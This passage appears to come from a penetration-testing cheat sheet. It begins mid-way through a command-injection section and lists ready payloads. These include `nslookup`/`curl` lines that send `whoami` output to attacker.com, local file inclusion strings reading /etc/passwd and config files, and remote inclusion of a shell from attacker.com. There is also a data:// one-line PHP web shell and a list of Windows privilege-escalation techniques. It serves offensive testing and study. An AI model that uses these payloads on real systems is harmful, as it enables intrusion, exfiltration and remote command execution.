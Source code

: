 ```bash
; nslookup `whoami`.attacker.com
| curl http://attacker.com/$(whoami)
```

#### File Inclusion Vulnerabilities
**Local File Inclusion (LFI):**
```php
# Basic LFI
../../../etc/passwd
....//....//....//etc/passwd

# Null byte injection (PHP < 5.3)
../../../etc/passwd%00

# PHP wrapper exploitation
php://filter/convert.base64-encode/resource=config.php
data://text/plain;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=

# Log poisoning
../../../var/log/apache2/access.log
```

**Remote File Inclusion (RFI):**
```php
# Basic RFI
http://attacker.com/shell.php
ftp://attacker.com/shell.php

# Data wrapper RFI
data://text/plain,<?php system($_GET['cmd']); ?>
```

---

## Post-Exploitation

### Privilege Escalation

#### Windows Privilege Escalation
**Técnicas Comunes:**
```
Windows Privilege Escalation:
├── Kernel Exploits
│   ├── MS16-032 (Secondary Logon Handle)
│   ├── MS17-017 (GDI Palette Objects)
│   └── MS15-051 (Client Copy Image)
├── Service Exploits
│   ├── Unquoted Service Paths
│   ├── Weak Service Permissions
│   └── Service Binary Hijacking
├── Registry Exploits
│   ├── AlwaysInstallElevated
│   ├── Registry AutoRuns
│   └── Weak Registry Permissions
├── Scheduled Tasks
│   ├── Weak File Permissions
│   ├── Missing Binary
│   └── PATH Interception
└── Token Manipulation
    ├── Token Impersonation
    ├── Token Duplication
    └── Process Hollowing
```
